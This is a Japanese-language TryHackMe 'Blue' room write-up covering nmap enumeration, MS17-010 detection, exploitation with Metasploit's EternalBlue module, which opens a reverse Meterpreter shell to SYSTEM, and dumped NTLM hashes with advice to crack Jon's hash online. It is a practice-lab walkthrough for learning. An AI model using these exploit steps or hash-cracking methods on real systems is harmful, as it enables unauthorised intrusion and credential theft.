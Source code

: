 ![](https://raw.githubusercontent.com/crum7/Obsidian/main/TryHackMe_Memo/Machine/images/Generic-Banner.svg)

- URL : https://tryhackme.com/r/room/blue
- #easy 
- OS :  #Windows
- Machine Author(s): 
- Hack Date: 2025-01-02,20:15


# Enumeration
どのポートが空いている?
```bash
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 128 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 128
|_ssl-date: 2025-01-02T11:03:22+00:00; -1s from scanner time.
49152/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:83:7C:C9:21:C9 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 3h00m00s, median: -1s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:83:7c:c9:21:c9 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 83 7c c9 21 c9 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53248/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58458/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 11980/udp): CLEAN (Timeout)
|   Check 4 (port 57286/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-02T05:03:17-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-02T11:03:17
|_  start_date: 2025-01-02T10:58:51
```


nmapで脆弱性スキャン
ms17-010が見つかった。

ms17-010
- MSから始まる番号（例: MS17-010）は、**Microsoft Security Bulletinのセキュリティパッチの識別番号
- MS17-010
	- 意味
		- **MS**: Microsoft Security Bulletinの略
		- **17**: 公開年（2017年）
		- 10番目のセキュリティパッチ
	- 内容
		- 2017年に発生した**WannaCry**ランサムウェア攻撃で利用された「EternalBlue」エクスプロイトの脆弱性
		- 攻撃者が特別に細工されたメッセージをSMBv1サーバーに送信することで、リモートでコードを実行できる可能性があります。
		- MS17-010で修正された主な脆弱性には、以下が含まれます：
			- **CVE-2017-0143**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0144**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0145**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0146**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0147**: Windows SMBの情報漏洩の脆弱性
			- **CVE-2017-0148**: Windows SMBのリモートコード実行の脆弱性



```bash
oot@ip-10-10-195-190:~/HTBScript# nmap --script=*vuln* 10.10.154.44
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-02 11:12 GMT
Nmap scan report for 10.10.154.44.htb (10.10.154.44)
Host is up (0.032s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
MAC Address: 02:83:7C:C9:21:C9 (Unknown)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 91.73 seconds
```




# Foothold

meterplaterでEternalBlueの脆弱性を使ってexploitした。
EternalBlueは、「Groom Allocations」とは、メモリヒープ（heap）の管理を操作して、ターゲットシステムの脆弱性を悪用している。
具体的には、脆弱性を引き起こす条件を満たすように、ヒープメモリを意図的に配置・解放する。そのため、たまに上手くいかなくなることがある。
自分は、`set GroomAllocations 20`にしたら、上手く行った。
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 10.10.195.190:4444 
[*] 10.10.154.44:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.154.44:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.154.44:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.154.44:445 - The target is vulnerable.
[*] 10.10.154.44:445 - Connecting to target for exploitation.
[+] 10.10.154.44:445 - Connection established for exploitation.
[+] 10.10.154.44:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.154.44:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.154.44:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.154.44:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.154.44:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.154.44:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.154.44:445 - Trying exploit with 20 Groom Allocations.
[*] 10.10.154.44:445 - Sending all but last fragment of exploit packet
[*] 10.10.154.44:445 - Starting non-paged pool grooming
[+] 10.10.154.44:445 - Sending SMBv2 buffers
[+] 10.10.154.44:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.154.44:445 - Sending final SMBv2 buffers.
[*] 10.10.154.44:445 - Sending last fragment of exploit packet!
[*] 10.10.154.44:445 - Receiving response from exploit packet
[+] 10.10.154.44:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.154.44:445 - Sending egg to corrupted connection.
[*] 10.10.154.44:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.10.154.44
[*] Meterpreter session 1 opened (10.10.195.190:4444 -> 10.10.154.44:49219) at 2025-01-02 11:40:53 +0000
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > bash
[-] Unknown command: bash. Run the help command for more details.
meterpreter > shell
Process 1112 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

## Notes
なんか、他のアカウントのパスワードも知りたいらしい。
Windowsのパスワードのハッシュの構成

`<ユーザー名>:<RID>:<LMハッシュ>:<NTLMハッシュ>:::`

- **ユーザー名**: Windowsアカウント名
- **RID**: 相対識別子（ユーザー固有ID）
- **LMハッシュ**: 古いLAN Managerハッシュ（未使用の場合は`aad3b435b51404eeaad3b435b51404ee`）
- **NTLMハッシュ**: NTLMv1またはv2ハッシュ（クラック対象）

jonのパスワードを知るためには、一番最後のffb43f0de35be4d9917ac0cc8ad57f8dの部分を
https://crackstation.net/
でクラックすればいい。
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

![](https://raw.githubusercontent.com/crum7/Obsidian/main/TryHackMe_Memo/Machine/images/Pasted%20image%2020250102210525.png)


## Flags

- **User**: `<md5>`
- **Root**: `<md5>`
